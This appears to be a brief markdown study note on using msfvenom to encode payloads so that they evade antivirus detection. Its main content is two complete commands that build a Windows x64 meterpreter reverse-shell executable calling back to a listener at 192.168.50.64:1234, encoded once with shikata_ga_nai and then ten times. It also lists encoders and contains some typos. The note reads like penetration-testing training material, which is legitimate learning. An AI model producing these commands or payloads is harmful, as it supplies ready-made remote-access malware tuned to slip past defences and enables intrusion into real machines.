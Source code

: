 # Encoding Payloads

Encoding will allow us to possible bypass antivirus  
Shellcode - This is essentially the payload  

```mfsvenom --list encoders```
- x86/shikata_ga_nai
- cmd/powershell_base64

Example -- ```msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.64 LPORT=1234 -e x86/shikata_ga_nai -f exe > /home/secops/Desktop/encoded_payloadx64.exe```  
This will encode the payload once

Increasing iterations of encoding will increase chances of evading antivirus  
To Increase us -i (number)  
```msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.64 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > /home/secops/Desktop/encoded_payloadx64.exe``` 
